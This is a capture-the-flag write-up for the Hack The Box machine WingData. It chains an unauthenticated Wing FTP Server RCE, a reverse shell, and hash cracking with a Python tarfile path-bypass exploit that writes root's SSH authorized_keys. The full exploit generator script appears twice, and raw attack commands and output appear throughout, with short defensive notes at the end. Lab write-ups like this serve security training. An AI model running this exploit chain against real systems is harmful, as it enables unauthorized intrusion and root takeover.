


# WingData


!!! note "Replaceable banner"
    Replace `images/banner.png` in this box folder with the final WingData artwork. The page already points to that filename.

| Field | Value |
| --- | --- |
| Status | Completed — May 8, 2026 |
| Difficulty | Easy; assessed as Medium by the author |
| Focus | Linux, web exploitation |
| Machine | [WingData on Hack The Box](https://app.hackthebox.com/machines/WingData?sort_by=created_at&sort_type=desc) |

## Attack path

1. Enumerate HTTP and SSH and identify the Wing FTP Server installation behind the virtual host.
2. Use the unauthenticated Wing FTP Server 7.4.3 RCE to execute commands as `wingftp`.
3. Obtain a shell and inspect the Wing FTP user database.
4. Crack a stored password hash and use the resulting access to inspect the backup service.
5. Build a malicious tar archive that abuses Python's path-filter weakness to write root's `authorized_keys`.
6. Restore the archive through the permitted backup script and SSH as root.

## 1. Reconnaissance

The scan exposed HTTP and SSH:

```bash
nmap -p- --min-rate 1000 -T4 -A -sV -Pn -oA nmap_full_scan LAB_IP
```

| Port | Service | Observation |
| ---: | --- | --- |
| 22/tcp | SSH | OpenSSH 9.2p1 on Debian. |
| 80/tcp | HTTP | Apache redirects to `wingdata.htb`. |

The two supplied screenshots show the web reconnaissance sequence.

<figure class="htb-figure">
  
  <figcaption><strong>Figure 1.</strong> The first WingData reconnaissance view.</figcaption>
</figure>

<figure class="htb-figure">
  
  <figcaption><strong>Figure 2.</strong> The second reconnaissance view used to identify the Wing FTP surface.</figcaption>
</figure>

## 2. Identify the Wing FTP Server RCE

Search Exploit-DB locally for the detected Wing FTP version:

```bash
searchsploit "Wing FTP Server 7.4.3"
searchsploit -m multiple/remote/52347.py
```

The matching entry is an unauthenticated remote-code-execution exploit associated with CVE-2025-47812. Test command execution against the virtual host:

```bash
python3 52347.py \
  -u http://ftp.wingdata.htb/ \
  -c "id"
```

The completed run returned:

```text
uid=1000(wingftp) gid=1000(wingftp) groups=1000(wingftp),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)
```

This confirms unauthenticated command execution as the service account.

## 3. Get an interactive shell

Start a listener and use the exploit to obtain a callback:

```bash
nc -lvnp 4444
```

After the callback, stabilize the shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

The resulting shell runs as `wingftp` in the Wing FTP installation directory:

```text
wingftp@wingdata:/opt/wftpserver$
```

The source notes contain a large LinPEAS capture. Instead of repeating thousands of lines of tool output, the relevant findings are carried into the next steps: Wing FTP user data is readable, and the backup/restore workflow is available for the later root path.

## 4. Recover a usable account and inspect the backup path

Inspect the Wing FTP user XML files for stored password hashes:

```bash
for f in /opt/wftpserver/Data/1/users/*.xml; do
  echo "=== $f ==="
  grep -E "UserName|Password" "$f"
done
```

The source notes recovered the following hash during the completed session:

```text
32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca:WingFTP:pyth
```

Crack the hash with the available wordlist:

```bash
hashcat -m 1410 hash.txt /usr/share/wordlists/rockyou.txt
```

The recovered password was `pyth`. Continue by checking the backup service and its permitted restore directory. The important question is not only whether a backup can be uploaded, but where the restore process writes archive members and which user executes it.

## 5. Build the malicious archive

The completed solution abuses a Python `tarfile` path-filter weakness. The archive uses a long chain of directories and symlinks to escape the intended backup directory, then writes a file at `/root/.ssh/authorized_keys`.

The following compact generator preserves the important stages from the source exploit:

```python
#!/usr/bin/env python3
import argparse
import io
import os
import tarfile

DIR_COMP_LEN = 247
CHAIN_STEPS = "abcdefghijklmnop"
LONG_LINK_LEN = 254


def build_exploit_tar(output, target_file, public_key):
    component = "d" * DIR_COMP_LEN
    inner = ""

    with tarfile.open(output, "w") as tar:
        # Build long directory/symlink pairs.
        for step in CHAIN_STEPS:
            directory = tarfile.TarInfo(os.path.join(inner, component))
            directory.type = tarfile.DIRTYPE
            tar.addfile(directory)

            link = tarfile.TarInfo(os.path.join(inner, step))
            link.type = tarfile.SYMTYPE
            link.linkname = component
            tar.addfile(link)
            inner = os.path.join(inner, component)

        # Add the long pivot link and an escape link to the target directory.
        short_chain = "/".join(CHAIN_STEPS)
        pivot_name = os.path.join(short_chain, "l" * LONG_LINK_LEN)
        pivot = tarfile.TarInfo(pivot_name)
        pivot.type = tarfile.SYMTYPE
        pivot.linkname = "../" * len(CHAIN_STEPS)
        tar.addfile(pivot)

        escape = tarfile.TarInfo("escape")
        escape.type = tarfile.SYMTYPE
        escape.linkname = pivot_name + "/" + ("../" * 8) + target_file.lstrip("/")
        tar.addfile(escape)

        payload = public_key.encode() + b"\n"
        entry = tarfile.TarInfo("escape/authorized_keys")
        entry.size = len(payload)
        entry.mode = 0o600
        entry.uid = 0
        entry.gid = 0
        tar.addfile(entry, io.BytesIO(payload))


parser = argparse.ArgumentParser()
parser.add_argument("--tar-out", required=True)
parser.add_argument("--payload", required=True)
args = parser.parse_args()

with open(args.payload, "r", encoding="utf-8") as key_file:
    public_key = key_file.read().strip()

build_exploit_tar(args.tar_out, "/root/.ssh/authorized_keys", public_key)
```

Generate a key pair and create the archive:

```bash
ssh-keygen -t ed25519 -f ~/.ssh/wingdata_key -N ""

python3 exploit.py \
  --payload ~/.ssh/wingdata_key.pub \
  --tar-out backup_888.tar
```

Move the archive into the permitted backup directory, then invoke the restore script:

```bash
mv backup_888.tar /opt/backup_clients/backups/
cd /opt/backup_clients/backups/

sudo /usr/local/bin/python3 \
  /opt/backup_clients/restore_backup_clients.py \
  -b backup_888.tar \
  -r restore_win123
```

## 6. Log in as root

Use the private key corresponding to the public key written by the archive:

```bash
ssh -i ~/.ssh/wingdata_key root@127.0.0.1

root@wingdata:~# whoami
root

root@wingdata:~# cat /root/root.txt
<ROOT_FLAG_REDACTED>
```

## Why the archive works

The backup restore process extracts attacker-controlled tar members while trusting a path that crosses a chain of symlinks. Long path components and a pivot link bypass the intended path boundary, allowing the final file write to escape the backup directory. Because the restored file is written as root, the archive can inject an SSH public key into root's `authorized_keys`.

## Defensive notes

- Extract archives into a dedicated directory and validate every member after canonicalizing its path.
- Reject absolute paths, `..` traversal and symlink/hardlink members in untrusted archives.
- Run restore helpers as a dedicated unprivileged account wherever possible.
- Restrict backup directories and never combine writable upload paths with a root restore process.
## Complete source command blocks

The following blocks preserve the complete typed commands and terminal output from the supplied source note. Output is kept intact except for user and root flag values, which are represented by the redaction markers used above.
The original LinPEAS block is intentionally omitted; its relevant findings are summarized in the main walkthrough.

### Source block 1 (`bash`)

```bash
└─❯ nmap -p- --min-rate 1000 -T4 -A -sV -Pn -oA nmap_full_scan 10.129.244.106
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-08 12:29 +0530
Stats: 0:01:31 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 68.69% done; ETC: 12:31 (0:00:41 remaining)
Stats: 0:01:49 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 82.54% done; ETC: 12:31 (0:00:23 remaining)
Stats: 0:02:12 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.76% done; ETC: 12:31 (0:00:00 remaining)
Nmap scan report for 10.129.244.106
Host is up (0.36s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey:
|   256 a1:fa:95:8b:d7:56:03:85:e4:45:c9:c7:1e:ba:28:3b (ECDSA)
|_  256 9c:ba:21:1a:97:2f:3a:64:73:c1:4c:1d:ce:65:7a:2f (ED25519)
80/tcp open  http    Apache httpd 2.4.66
|_http-title: Did not follow redirect to http://wingdata.htb/
|_http-server-header: Apache/2.4.66 (Debian)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running (JUST GUESSING): Linux 4.X|5.X|2.6.X|3.X (97%), MikroTik RouterOS 7.X (90%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3 cpe:/o:linux:linux_kernel:6.0
Aggressive OS guesses: Linux 4.15 - 5.19 (97%), Linux 5.0 - 5.14 (97%), Linux 2.6.32 - 3.13 (91%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (91%), Linux 4.15 (91%), Linux 2.6.32 - 3.10 (91%), Linux 4.19 - 5.15 (91%), Linux 4.19 (90%), Linux 5.0 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   488.31 ms 10.10.16.1
2   690.20 ms 10.129.244.106

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 170.26 seconds
```

### Source block 2 (`bash`)

```bash
┌──[kali@Shieldbyte53]─[~]
└─❯ searchsploit "Wing FTP Server 7.4.3"
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Wing FTP Server 7.4.3 - Unauthenticated Remote Code Execution  (RCE)                                                                                      | multiple/remote/52347.py
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──[kali@Shieldbyte53]─[~]
└─❯ searchsploit -m multiple/remote/52347.py
  Exploit: Wing FTP Server 7.4.3 - Unauthenticated Remote Code Execution  (RCE)
      URL: https://www.exploit-db.com/exploits/52347
     Path: /usr/share/exploitdb/exploits/multiple/remote/52347.py
    Codes: CVE-2025-47812
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/kali/52347.py
```

### Source block 3 (`bash`)

```bash
┌──[kali@Shieldbyte53]─[~/test]
└─❯ python3 52347.py -u http://ftp.wingdata.htb/ -c "id"

[*] Testing target: http://ftp.wingdata.htb/
[+] Sending POST request to http://ftp.wingdata.htb//loginok.html with command: 'id' and username: 'anonymous'
[+] UID extracted: 9cda77a8f1363f1ddaa6798086f46540f528764d624db129b32c21fbca0cb8d6
[+] Sending GET request to http://ftp.wingdata.htb//dir.html with UID: 9cda77a8f1363f1ddaa6798086f46540f528764d624db129b32c21fbca0cb8d6

--- Command Output ---
uid=1000(wingftp) gid=1000(wingftp) groups=1000(wingftp),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)
----------------------
```

### Source block 4 (`bash`)

```bash
┌──[kali@Shieldbyte53]─[~]
└─❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.9] from (UNKNOWN) [10.129.232.33] 52678
python3 -c 'import pty; pty.spawn("/bin/bash")'
wingftp@wingdata:/opt/wftpserver$
```

### Source block 6 (`bash`)

```bash
wingftp@wingdata:/var/www/wingdata.htb$ for f in /opt/wftpserver/Data/1/users/*.xml; do echo "=== $f ==="; grep -E "UserName|Password" $f; done
=== /opt/wftpserver/Data/1/users/anonymous.xml ===
        <UserName>anonymous</UserName>
        <EnablePassword>0</EnablePassword>
        <Password>d67f86152e5c4df1b0ac4a18d3ca4a89c1b12e6b748ed71d01aeb92341927bca</Password>
        <PasswordLength>0</PasswordLength>
        <CanChangePassword>0</CanChangePassword>
=== /opt/wftpserver/Data/1/users/john.xml ===
        <UserName>john</UserName>
        <EnablePassword>1</EnablePassword>
        <Password>c1f14672feec3bba27231048271fcdcddeb9d75ef79f6889139aa78c9d398f10</Password>
        <PasswordLength>0</PasswordLength>
        <CanChangePassword>0</CanChangePassword>
=== /opt/wftpserver/Data/1/users/maria.xml ===
        <UserName>maria</UserName>
        <EnablePassword>1</EnablePassword>
        <Password>a70221f33a51dca76dfd46c17ab17116a97823caf40aeecfbc611cae47421b03</Password>
        <PasswordLength>0</PasswordLength>
        <CanChangePassword>0</CanChangePassword>
=== /opt/wftpserver/Data/1/users/steve.xml ===
        <UserName>steve</UserName>
        <EnablePassword>1</EnablePassword>
        <Password>5916c7481fa2f20bd86f4bdb900f0342359ec19a77b7e3ae118f3b5d0d3334ca</Password>
        <PasswordLength>0</PasswordLength>
        <CanChangePassword>0</CanChangePassword>
=== /opt/wftpserver/Data/1/users/wacky.xml ===
        <UserName>wacky</UserName>
        <EnablePassword>1</EnablePassword>
        <Password>21821604314c59670868e2b6abf71c5483c23ff209e65ab4ccf86db1f3792c5e</Password>
        <PasswordLength>0</PasswordLength>
        <CanChangePassword>0</CanChangePassword>
wingftp@wingdata:/var/www/wingdata.htb$
```

### Source block 7 (`bash`)

```bash
┌──[kali@Shieldbyte53]─[~/Downloads]
└─❯ hashcat -m 1410 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-haswell-AMD Ryzen 3 7320U with Radeon Graphics, 1331/2662 MB (512 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 4 digests; 4 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Iterated
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 514 MB (1919 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca:WingFTP:pyth
```

### Source block 8 (`bash`)

```bash
#!/usr/bin/env python3
"""
CVE-2025-4138 / CVE-2025-4517 — Python tarfile PATH_MAX Filter Bypass
"""

import tarfile
import io
import os
import sys
import argparse

# Constants for Linux
DIR_COMP_LEN = 247
CHAIN_STEPS = "abcdefghijklmnop"  # 16 levels
LONG_LINK_LEN = 254

def build_exploit_tar(tar_path, target_file, payload, file_mode=0o644):
    """
    Build a malicious TAR file for CVE-2025-4138
    """
    comp = "d" * DIR_COMP_LEN
    inner_path = ""
    
    with tarfile.open(tar_path, "w") as tar:
        # Stage 1: Chain of symlinks
        for step_char in CHAIN_STEPS:
            # Long directory
            d = tarfile.TarInfo(name=os.path.join(inner_path, comp))
            d.type = tarfile.DIRTYPE
            tar.addfile(d)
            
            # Short symlink → long directory
            s = tarfile.TarInfo(name=os.path.join(inner_path, step_char))
            s.type = tarfile.SYMTYPE
            s.linkname = comp
            tar.addfile(s)
            
            inner_path = os.path.join(inner_path, comp)
        
        # Stage 2: Pivot symlink (exceed PATH_MAX)
        short_chain = "/".join(CHAIN_STEPS)
        link_name = os.path.join(short_chain, "l" * LONG_LINK_LEN)
        
        pivot = tarfile.TarInfo(name=link_name)
        pivot.type = tarfile.SYMTYPE
        pivot.linkname = "../" * len(CHAIN_STEPS)
        tar.addfile(pivot)
        
        # Stage 3: Escape symlink
        target_dir = os.path.dirname(target_file)
        target_basename = os.path.basename(target_file)
        
        depth = 8
        escape_linkname = (
            link_name + "/" + ("../" * depth) + target_dir.lstrip("/")
        )
        
        esc = tarfile.TarInfo(name="escape")
        esc.type = tarfile.SYMTYPE
        esc.linkname = escape_linkname
        tar.addfile(esc)
        
        # Stage 4: Write payload
        payload_entry = tarfile.TarInfo(name=f"escape/{target_basename}")
        payload_entry.type = tarfile.REGTYPE
        payload_entry.size = len(payload)
        payload_entry.mode = file_mode
        payload_entry.uid = 0
        payload_entry.gid = 0
        tar.addfile(payload_entry, fileobj=io.BytesIO(payload))
    
    print(f"[+] Exploit tar: {tar_path}")
    print(f"[+] Target: {target_file}")
    print(f"[+] Payload size: {len(payload)} bytes")

def main():
    parser = argparse.ArgumentParser(description="CVE-2025-4138 Exploit")
    parser.add_argument("--tar-out", "-o", required=True)
    parser.add_argument("--preset", "-p", choices=["ssh-key"])
    parser.add_argument("--payload", "-P", required=True)
    args = parser.parse_args()
    
    if args.preset == "ssh-key":
        target_file = "/root/.ssh/authorized_keys"
        file_mode = 0o600
        
        # Read SSH key
        with open(os.path.expanduser(args.payload), "rb") as f:
            payload = f.read()
        if not payload.endswith(b"\n"):
            payload += b"\n"
    
    build_exploit_tar(args.tar_out, target_file, payload, file_mode)

if __name__ == "__main__":
    main()
```

### Source block 9 (`bash`)

```bash
# Generate SSH key pair
ssh-keygen -t ed25519 -f ~/.ssh/wingdata_key -N ""

# Create malicious backup archive targeting root authorized_keys
python3 exploit.py \
  --preset ssh-key \
  --payload ~/.ssh/wingdata_key.pub \
  --tar-out backup_888.tar

# Move archive into allowed backup directory
mv backup_888.tar /opt/backup_clients/backups/

# Restore crafted backup as root
cd /opt/backup_clients/backups/

sudo /usr/local/bin/python3 \
  /opt/backup_clients/restore_backup_clients.py \
  -b backup_888.tar \
  -r restore_win123

# SSH into root using injected public key
ssh -i ~/.ssh/wingdata_key root@127.0.0.1

# Read root flag
cat /root/root.txt
<ROOT_FLAG_REDACTED>
```
